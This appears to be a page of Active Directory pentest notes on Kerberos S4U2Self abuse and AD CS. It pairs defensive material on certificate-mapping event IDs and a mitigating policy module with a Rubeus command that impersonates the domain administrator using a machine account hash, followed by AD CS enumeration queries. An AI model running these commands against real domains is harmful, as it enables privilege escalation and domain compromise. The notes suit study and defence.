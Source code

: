
Using target user or machine account credentials, we can use **S4U2Self** to get a TGS for a service (e.g., CIFS, HOST, HTTP), impersonating any user including a Domain Administrator (DA). An example is as follows:

---

**Example of S4U2Self Using Rubeus** 
```powershell
Rubeus.exe s4u /self /impersonateuser:administrator /altservice:cifs/web.corp /dc:dc.corp /user:'web$' /rc4:B2FCBA1C3570AB9418994799B9BC985A /ptt
```


---

| EVENT ID | EVENT Type | EVENT Source | EVENT Description |
|----------|------------|--------------|-------------------|
| 39       | Error      | System       | No strong mapping: No strong certificate mappings could be found because the certificate did not have the new security identifier (SID) extension that the KDC could validate. |
| 40       | Error      | System       | Certificate predates account: The certificate was issued to the user before the user existed in Active Directory and no strong mapping could be found. |
| 41       | Error      | System       | User and Certificate SID do not match: The SID contained in the new extension of the user's certificate does not match the user's SID, implying that the certificate was issued to another user. |


- A major issue introduced with this patch is while incorporating Offline Templates.
- In Full-Enforcement mode, certificates issued using Network Device Enrollment Service (e.g., Microsoft Intune) to non-domain joined devices will be rejected by the KDC. This is because platforms like Intune use Offline Templates with NDES, and the CA is unable to perform target account retrieval to add the new SID extension in the client certificate.


PKISolutions released a Policy Module for ADCS:

1. **Stops User-crafted SID extension bypass**
   - Define custom rules when identity retrieval is performed. Only requests that match the configuration will be processed by the policy module.
   - Define a custom action when an incoming request contains a potentially fraudulent SID extension.

2. **Fixes issues with Offline Templates**
   - The policy module can automatically retrieve the target identity account and include the SID extension in certificates requested through NDES.


# Enum

As a normal domain user, we can enumerate for the presence of AD CS in the target environment.

**Look for AD CS containers using the AD Module**
```powershell
Get-ADObject -Filter * -SearchBase 'CN=Certification Authorities,CN=Public Key Services,CN=Services,CN=Configuration,DC=cb,DC=corp'
ls 'AD:\CN=Certification Authorities,CN=Public Key Services,CN=Services,CN=Configuration,DC=cb,DC=corp'
```

**Based on ObjectClass**
```powershell
Get-ADObject -LDAPFilter '(objectclass=certificationAuthority)' -SearchBase 'CN=Configuration,DC=cb,DC=corp' | fl *
```
